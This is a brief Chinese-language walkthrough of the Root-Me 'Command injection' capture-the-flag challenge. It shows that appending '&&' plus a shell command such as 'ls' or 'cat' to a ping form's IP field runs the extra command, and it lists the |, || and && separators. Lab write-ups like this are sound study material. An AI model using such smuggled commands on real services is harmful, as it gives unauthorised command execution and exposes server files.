


Root-Me [Command injection](https://www.root-me.org/en/Challenges/Web-Server/Command-injection)
===

該題提供一個 `Ping` 的功能。

  

## 解題關鍵 
1. |
2. ||
3. &&

## 解題方法
首先嘗試在輸入的 IP 後方加上 `&&`，隨後再補上一個 Linux 指令 `ls`，可以發現 `index.php` 檔案。

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.037 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.032/0.035/0.037/0.002 ms
index.php
```

隨後透過 `cat` 來印出檔案內容，並在原始碼中發現 Flag。



## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)